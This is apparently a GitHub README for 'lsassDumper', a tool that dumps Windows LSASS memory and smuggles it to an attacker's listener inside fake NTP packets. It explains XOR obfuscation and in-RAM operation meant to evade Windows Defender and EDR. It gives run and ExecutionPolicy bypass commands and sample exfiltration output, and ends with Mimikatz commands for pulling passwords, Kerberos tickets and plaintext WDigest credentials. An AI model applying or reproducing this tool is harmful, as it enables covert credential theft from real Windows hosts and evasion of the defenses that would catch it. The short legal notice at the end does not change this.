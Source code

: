 
<h1 align="center"> Project lsassDumper </h1>

## **🔍 Overview**
`lsassDumper` is an tool designed to **dump the memory of the Windows process `lsass.exe`** and **exfiltrate** it using **UDP packets disguised as NTP requests**. Unlike traditional tools like **Mimikatz**, this tool performs all operations **in RAM**, avoiding detection by **Windows Defender, EDR, and forensic tools**.


The project consists of:
- A **dumper** (`memdump.c`) to **extract LSASS memory in RAM**.
- A **sender** that transmits the **compressed dump over UDP (NTP packets)**.
- A **receiver** (`server.py`) that **reassembles the fragments** and **decompresses the memory dump**.

---

## **🛠 Features**
### **🔹 Process Identification**
- The **process name (`lsass.exe`) is obfuscated** in the source code using **XOR encoding** (`0x13` key) to **bypass static detection**.
- **Windows APIs (`CreateToolhelp32Snapshot`)** are used to **enumerate processes and extract the PID** dynamically.

### **🔹 Memory Dumping**
- Uses **MiniDumpWriteDump (from `DbgHelp.dll`)** to dump LSASS **directly into RAM**, **never touching the disk**.
- A **memory-mapped file** acts as a temporary buffer to minimize detection.

### **🔹 Compression (zlib)**
- The **dump is compressed in-memory** using `zlib` before transmission.
- This **reduces size** and makes the exfiltration **less detectable**.

### **🔹 Exfiltration via Fake NTP Packets**
- The **compressed dump is fragmented into small chunks** and sent via **UDP packets disguised as NTP traffic**.
- The **"Transmit Timestamp" field** of the NTP packet is **hijacked** to store **payload fragments**.

### **🔹 Receiver Script**
- A **Python-based receiver** (`receiver.py`) **listens on UDP port 123 (NTP)**.
- It **reassembles the fragmented dump**, **decompresses** it, and **writes it to a file**.

---

## **📜 How NTP Packet Camouflage Works**
### **🔹 Normal NTP Packet Structure**
NTP (Network Time Protocol) packets typically contain **48 bytes**, with the last 8 bytes storing the **Transmit Timestamp**.

```
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|LI | VN  |Mode |    Stratum     |     Poll      |  Precision   |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                          Root Delay                           |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                       Root Dispersion                         |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                     Reference Identifier                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                   Reference Timestamp (64 bits)               |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                   Originate Timestamp (64 bits)               |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                    Receive Timestamp (64 bits)                |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                    Transmit Timestamp (64 bits)               |    <------- Hijacked
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### **🔹 How This Tool Abuses NTP**
- Instead of sending a **valid NTP Transmit Timestamp**, we hijack this field and we **embed data** into it.
- The **first packet** contains a **header**:
  - **4 bytes** → `total number of fragments` (big-endian)
  - **4 bytes** → `total compressed size` (big-endian)
- Each **subsequent packet** contains:
  - **4 bytes** → `fragment sequence number`
  - **4 bytes** → `data fragment`

This **allows memory dump exfiltration under the guise of legitimate NTP traffic**.

---

## **🚀 Installation & Compilation**
### **🔹 Windows (PowerShell)**
 -- If you have VSCode or another configured environment
 1. Run the following command:
   ```powershell
   Set-ExecutionPolicy Bypass -Scope Process -Force; ./run.ps1
   ```

---

## **🎯 Usage**
### **1️⃣ Run the Dumper (Attacker)**
On **Windows**:
```powershell
.\memdump.exe
```

You will be prompted to **enter the remote server IP and port** for exfiltration.

### **2️⃣ Run the Receiver (Listener)**
On the **attacker machine**, run:
```bash
python3 server.py
```
This will **listen on UDP port 123 (NTP)** and reconstruct the **exfiltrated dump**.

---

## **📌 Example Execution**
### **🟢 Attacker (Dumper)**
```
[*] Enter server IP: 192.168.1.100
[*] Enter server port: 123
[+] Process lsass.exe found with PID 1234
[+] Memory dump completed. Size: 16 MB.
[+] Compression completed. Compressed size: 512 KB.
[+] Header sent: 128 fragments, 512 KB total.
[+] Packet 1/128 sent.
...
[+] Transmission completed.
```

### **🟢 Receiver (Listener)**
```
[INFO] Listening on 0.0.0.0:123 (global timeout: 30s)
[INFO] Header received: 128 fragments, 512 KB compressed size.
[INFO] Receiving packets...
[Reconstitution] [========------] 50% (64/128)
[INFO] All fragments received.
[INFO] Decompressing...
[INFO] Dump saved as dump_memory.bin.
```

---

## **🔍 Analyzing the Dump with Mimikatz**

Once you have obtained the memory dump file (`dump_memory.bin`), you can analyze it using **Mimikatz** to extract credentials and other sensitive information. Here are the steps and commands to do so:

1. **Download Mimikatz**: Ensure you have the latest version of Mimikatz from the official GitHub repository.

2. **Run Mimikatz**: Open a command prompt with administrative privileges and navigate to the directory containing Mimikatz.

3. **Load the Memory Dump**: Use the following commands to load and analyze the memory dump:

   ```shell
   mimikatz # sekurlsa::minidump dump_memory.bin
   mimikatz # sekurlsa::logonpasswords
   ```

   - The first command loads the memory dump file.
   - The second command extracts and displays logon passwords from the dump.

4. **Extract Additional Information**: You can use other Mimikatz commands to extract more information, such as:

   ```shell
   mimikatz # sekurlsa::tickets
   mimikatz # sekurlsa::wdigest
   ```

   - `sekurlsa::tickets`: Extracts Kerberos tickets.
   - `sekurlsa::wdigest`: Extracts plaintext credentials stored by WDigest.

---

## **⚠️ Legal Notice**
🚨 **This tool is for EDUCATIONAL and AUTHORIZED TESTING ONLY.**
Use this tool **only on systems you own or have explicit permission to test**.

---
